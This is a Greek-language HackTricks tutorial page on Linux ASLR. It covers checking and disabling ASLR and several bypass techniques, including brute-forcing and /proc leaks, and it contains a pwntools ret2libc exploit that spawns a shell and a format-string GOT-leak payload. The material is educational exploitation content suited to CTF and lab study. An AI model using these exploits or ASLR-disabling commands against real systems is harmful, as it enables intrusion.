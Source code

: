 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Η Τυχαία Διάταξη Χώρου Διευθύνσεων (ASLR)** είναι μια τεχνική ασφαλείας που χρησιμοποιείται σε λειτουργικά συστήματα για να **τυχαίνει τις διευθύνσεις μνήμης** που χρησιμοποιούνται από διαδικασίες συστήματος και εφαρμογών. Με αυτόν τον τρόπο, καθιστά σημαντικά πιο δύσκολο για έναν επιτιθέμενο να προβλέψει την τοποθεσία συγκεκριμένων διαδικασιών και δεδομένων, όπως η στοίβα, η σωρός και οι βιβλιοθήκες, μειώνοντας έτσι ορισμένους τύπους εκμεταλλεύσεων, ιδιαίτερα τις υπερχειλίσεις μνήμης.

### **Checking ASLR Status**

Για να **ελέγξετε** την κατάσταση ASLR σε ένα σύστημα Linux, μπορείτε να διαβάσετε την τιμή από το αρχείο `/proc/sys/kernel/randomize_va_space`. Η τιμή που αποθηκεύεται σε αυτό το αρχείο καθορίζει τον τύπο ASLR που εφαρμόζεται:

- **0**: Καμία τυχαία διάταξη. Όλα είναι στατικά.
- **1**: Συντηρητική τυχαία διάταξη. Οι κοινές βιβλιοθήκες, η στοίβα, το mmap(), η σελίδα VDSO είναι τυχαίες.
- **2**: Πλήρης τυχαία διάταξη. Εκτός από τα στοιχεία που τυχαίνουν από τη συντηρητική τυχαία διάταξη, η μνήμη που διαχειρίζεται μέσω του `brk()` είναι τυχαία.

Μπορείτε να ελέγξετε την κατάσταση ASLR με την παρακάτω εντολή:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Απενεργοποίηση ASLR**

Για να **απενεργοποιήσετε** το ASLR, ορίστε την τιμή του `/proc/sys/kernel/randomize_va_space` σε **0**. Η απενεργοποίηση του ASLR γενικά δεν συνιστάται εκτός από σενάρια δοκιμών ή αποσφαλμάτωσης. Ακολουθούν οι οδηγίες για να το απενεργοποιήσετε:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Μπορείτε επίσης να απενεργοποιήσετε το ASLR για μια εκτέλεση με:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Ενεργοποίηση ASLR**

Για να **ενεργοποιήσετε** το ASLR, μπορείτε να γράψετε μια τιμή **2** στο αρχείο `/proc/sys/kernel/randomize_va_space`. Αυτό συνήθως απαιτεί δικαιώματα root. Η πλήρης τυχαία κατανομή μπορεί να γίνει με την ακόλουθη εντολή:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Επιμονή Μετά από Επανεκκινήσεις**

Οι αλλαγές που γίνονται με τις εντολές `echo` είναι προσωρινές και θα επαναρυθμιστούν κατά την επανεκκίνηση. Για να κάνετε την αλλαγή μόνιμη, πρέπει να επεξεργαστείτε το αρχείο `/etc/sysctl.conf` και να προσθέσετε ή να τροποποιήσετε την παρακάτω γραμμή:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Μετά την επεξεργασία του `/etc/sysctl.conf`, εφαρμόστε τις αλλαγές με:
```bash
sudo sysctl -p
```
Αυτό θα διασφαλίσει ότι οι ρυθμίσεις ASLR σας παραμένουν κατά τη διάρκεια των επανεκκινήσεων.

## **Παρακάμψεις**

### 32bit brute-forcing

Το PaX χωρίζει τον χώρο διευθύνσεων της διαδικασίας σε **3 ομάδες**:

- **Κώδικας και δεδομένα** (αρχικοποιημένα και μη αρχικοποιημένα): `.text`, `.data`, και `.bss` —> **16 bits** εντροπίας στη μεταβλητή `delta_exec`. Αυτή η μεταβλητή αρχικοποιείται τυχαία με κάθε διαδικασία και προστίθεται στις αρχικές διευθύνσεις.
- **Μνήμη** που έχει κατανεμηθεί από το `mmap()` και **κοινές βιβλιοθήκες** —> **16 bits**, ονομάζεται `delta_mmap`.
- **Η στοίβα** —> **24 bits**, αναφέρεται ως `delta_stack`. Ωστόσο, χρησιμοποιεί αποτελεσματικά **11 bits** (από το 10ο έως το 20ό byte συμπεριλαμβανομένου), ευθυγραμμισμένο σε **16 bytes** —> Αυτό έχει ως αποτέλεσμα **524,288 δυνατές πραγματικές διευθύνσεις στοίβας**.

Τα προηγούμενα δεδομένα αφορούν συστήματα 32-bit και η μειωμένη τελική εντροπία καθιστά δυνατή την παράκαμψη του ASLR δοκιμάζοντας την εκτέλεση ξανά και ξανά μέχρι να ολοκληρωθεί επιτυχώς η εκμετάλλευση.

#### Ιδέες brute-force:

- Αν έχετε μια αρκετά μεγάλη υπερχείλιση για να φιλοξενήσει μια **μεγάλη NOP sled πριν από το shellcode**, θα μπορούσατε απλώς να δοκιμάσετε διευθύνσεις στη στοίβα μέχρι η ροή **να πηδήξει πάνω από κάποιο μέρος της NOP sled**.
- Μια άλλη επιλογή για αυτό σε περίπτωση που η υπερχείλιση δεν είναι τόσο μεγάλη και η εκμετάλλευση μπορεί να εκτελείται τοπικά είναι να **προσθέσετε την NOP sled και το shellcode σε μια μεταβλητή περιβάλλοντος**.
- Αν η εκμετάλλευση είναι τοπική, μπορείτε να προσπαθήσετε να δοκιμάσετε τη βασική διεύθυνση της libc (χρήσιμο για συστήματα 32bit):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Αν επιτίθεστε σε έναν απομακρυσμένο διακομιστή, μπορείτε να προσπαθήσετε να **brute-force την διεύθυνση της συνάρτησης `libc` `usleep`**, περνώντας ως επιχείρημα 10 (για παράδειγμα). Αν σε κάποιο σημείο ο **διακομιστής χρειαστεί 10 δευτερόλεπτα επιπλέον για να απαντήσει**, βρήκατε τη διεύθυνση αυτής της συνάρτησης.

> [!TIP]
> Σε συστήματα 64bit η εντροπία είναι πολύ υψηλότερη και αυτό δεν είναι δυνατό.

### Τοπικές Πληροφορίες (`/proc/[pid]/stat`)

Το αρχείο **`/proc/[pid]/stat`** μιας διαδικασίας είναι πάντα αναγνώσιμο από όλους και **περιέχει ενδιαφέρουσες** πληροφορίες όπως:

- **startcode** & **endcode**: Διευθύνσεις πάνω και κάτω με το **TEXT** του δυαδικού
- **startstack**: Η διεύθυνση της αρχής της **στοίβας**
- **start_data** & **end_data**: Διευθύνσεις πάνω και κάτω όπου είναι το **BSS**
- **kstkesp** & **kstkeip**: Τρέχουσες διευθύνσεις **ESP** και **EIP**
- **arg_start** & **arg_end**: Διευθύνσεις πάνω και κάτω όπου είναι τα **cli arguments**.
- **env_start** &**env_end**: Διευθύνσεις πάνω και κάτω όπου είναι οι **env variables**.

Επομένως, αν ο επιτιθέμενος είναι στον ίδιο υπολογιστή με το δυαδικό που εκμεταλλεύεται και αυτό το δυαδικό δεν περιμένει την υπερχείλιση από τις ακατέργαστες παραμέτρους, αλλά από μια διαφορετική **είσοδο που μπορεί να κατασκευαστεί μετά την ανάγνωση αυτού του αρχείου**. Είναι δυνατό για έναν επιτιθέμενο να **πάρε κάποια διευθύνσεις από αυτό το αρχείο και να κατασκευάσει offsets από αυτές για την εκμετάλλευση**.

> [!TIP]
> Για περισσότερες πληροφορίες σχετικά με αυτό το αρχείο, ελέγξτε [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) αναζητώντας το `/proc/pid/stat`

### Έχοντας μια διαρροή

- **Η πρόκληση είναι να δώσετε μια διαρροή**

Αν σας δοθεί μια διαρροή (εύκολες προκλήσεις CTF), μπορείτε να υπολογίσετε offsets από αυτήν (υποθέτοντας για παράδειγμα ότι γνωρίζετε την ακριβή έκδοση της libc που χρησιμοποιείται στο σύστημα που εκμεταλλεύεστε). Αυτή η εκμετάλλευση παραδείγματος είναι αποσπασμένη από το [**παράδειγμα από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (ελέγξτε αυτή τη σελίδα για περισσότερες λεπτομέρειες):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Καταχρώντας μια υπερχείλιση buffer, θα ήταν δυνατό να εκμεταλλευτεί κανείς ένα **ret2plt** για να εξάγει μια διεύθυνση μιας συνάρτησης από τη libc. Έλεγχος:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Ακριβώς όπως στο ret2plt, αν έχετε μια αυθαίρετη ανάγνωση μέσω μιας ευπάθειας format strings, είναι δυνατό να εξάγετε τη διεύθυνση μιας **libc function** από το GOT. Το παρακάτω [**παράδειγμα είναι από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με το Format Strings arbitrary read στο:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Δοκιμάστε να παρακάμψετε το ASLR εκμεταλλευόμενοι διευθύνσεις μέσα στη στοίβα:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}

